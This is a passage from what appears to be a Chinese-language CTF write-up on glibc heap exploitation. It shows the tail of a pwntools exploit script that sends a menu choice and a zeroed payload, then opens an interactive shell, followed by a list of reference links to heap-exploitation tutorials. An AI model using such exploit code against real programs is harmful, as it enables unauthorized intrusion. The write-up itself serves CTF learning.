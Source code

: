  ```python
 p.sendlineafter('Choice: ','666')
 p.send(p64(0)*6)
 
 p.interactive()
 ```

## 参考链接

https://www.wangan.com/docs/pwn-base

https://wiki.x10sec.org/pwn/linux/glibc-heap/heap_overview-zh/ 

https://www.yuque.com/hxfqg9/bin/ape5up

https://www.bookstack.cn/read/CTF-All-In-One/doc-3.1.8_heap_exploit_3.md

https://www.freebuf.com/articles/system/209096.html

https://www.anquanke.com/post/id/176194#h2-3

https://zhuanlan.zhihu.com/p/213904612